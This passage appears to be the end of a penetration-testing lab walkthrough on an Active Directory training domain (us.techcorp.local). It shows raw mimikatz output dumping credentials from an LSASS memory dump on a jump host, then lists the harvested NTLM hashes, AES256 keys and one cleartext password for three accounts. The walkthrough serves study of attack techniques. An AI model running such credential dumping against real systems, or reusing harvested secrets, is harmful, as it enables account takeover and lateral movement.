         <em> Password : @pEWg3"x<tk[Hk> E0D><code>?4v</code>zWs$[ULrZOAL$@k:g4y@%S.<code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)</em>. IT1V!lv-DKQf!57e
         <em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 8590149 (00000000:00831345)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 7/7/2024 2:39:05 AM
SID               : S-1-5-90-0-2</p>

</em> Username : US-JUMP$
         <em> Domain   : us.techcorp.local
         </em> Password : @pEWg3"x<tk[Hk> E0D></code>?4v<code>zWs$[ULrZOAL$@k:g4y@%S.</code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)<em>. IT1V!lv-DKQf!57e
         </em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 8590133 (00000000:00831335)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 7/7/2024 2:39:05 AM
SID               : S-1-5-90-0-2</p>

<em> Username : US-JUMP$
         </em> Domain   : us.techcorp.local
         <em> Password : @pEWg3"x<tk[Hk> E0D><code>?4v</code>zWs$[ULrZOAL$@k:g4y@%S.<code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)</em>. IT1V!lv-DKQf!57e
         <em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : US-JUMP$
Domain            : US
Logon Server      : (null)
Logon Time        : 7/7/2024 2:08:14 AM
SID               : S-1-5-20</p>

</em> Username : us-jump$
         <em> Domain   : US.TECHCORP.LOCAL
         </em> Password : (null)
         <em> Key List :
           aes256_hmac       88f63b9e6109aeab1c3d706a8345088659b9784614469099b65bac8fe011b277
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 37356373 (00000000:023a0355)
Session           : Interactive from 3
User Name         : UMFD-3
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 7/21/2024 3:42:02 AM
SID               : S-1-5-96-0-3</p>

</em> Username : US-JUMP$
         <em> Domain   : us.techcorp.local
         </em> Password : @pEWg3"x<tk[Hk> E0D></code>?4v<code>zWs$[ULrZOAL$@k:g4y@%S.</code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)<em>. IT1V!lv-DKQf!57e
         </em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 12049501 (00000000:00b7dc5d)
Session           : Service from 0
User Name         : webmaster
Domain            : US
Logon Server      : US-DC
Logon Time        : 7/7/2024 2:47:00 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1140</p>

<em> Username : webmaster
         </em> Domain   : US.TECHCORP.LOCAL
         <em> Password : (null)
         </em> Key List :
           aes256_hmac       2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
           rc4_hmac_nt       23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_old      23d6458d06b25e463b9666364fb0b29f
           rc4_md4           23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_nt_exp   23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_old_exp  23d6458d06b25e463b9666364fb0b29f

<p>Authentication Id : 0 ; 8580692 (00000000:0082ee54)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 7/7/2024 2:39:03 AM
SID               : S-1-5-96-0-2</p>

<em> Username : US-JUMP$
         </em> Domain   : us.techcorp.local
         <em> Password : @pEWg3"x<tk[Hk> E0D><code>?4v</code>zWs$[ULrZOAL$@k:g4y@%S.<code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)</em>. IT1V!lv-DKQf!57e
         <em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 41558 (00000000:0000a256)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 7/7/2024 2:08:15 AM
SID               : S-1-5-90-0-1</p>

</em> Username : US-JUMP$
         <em> Domain   : us.techcorp.local
         </em> Password : @pEWg3"x<tk[Hk> E0D></code>?4v<code>zWs$[ULrZOAL$@k:g4y@%S.</code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)<em>. IT1V!lv-DKQf!57e
         </em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

mimikatz(commandline) # exit
</code></pre>

<p>We can see above that we were able to dump all the Creds from nano.dmp file. It is possible to see above that we do have found 3 new users and their ekeys</p>

<p>User: webmaster
NTLM_Hash: 1d49d390ac01d568f0ee9be82bb74d4c
AES256: 2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0</p>

<p>User: pawadmin
NTLM_Hash: 36ea28bfa97a992b5e85bd22485e8d52
AES256: a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30</p>

<p>User: appsvc
Clear-Text_PWD: Us$rT0AccessDBwithImpersonation
NTLM_Hash: 1d49d390ac01d568f0ee9be82bb74d4c
AES256: b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335</p>


          <div class="part-navigation">
            <a href="part-08-privilege-escalation-gmsa-attack.html"><ion-icon name="arrow-back-outline"></ion-icon> Previous: Privilege Escalation - gMSA At</a>
            <a href="part-10-pass-the-certificates-attack.html">Next: Pass The Certificates Attack <ion-icon name="arrow-forward-outline"></ion-icon></a>
          </div>
        </div>
      </article>
    </div>
  </main>
  <script src="../assets/js/script.js"></script>
  <script type="module" src="https://unpkg.com/ionicons@5.5.2/dist/ionicons/ionicons.esm.js"></script>
  <script nomodule src="https://unpkg.com/ionicons@5.5.2/dist/ionicons/ionicons.js"></script>
</body>
</html>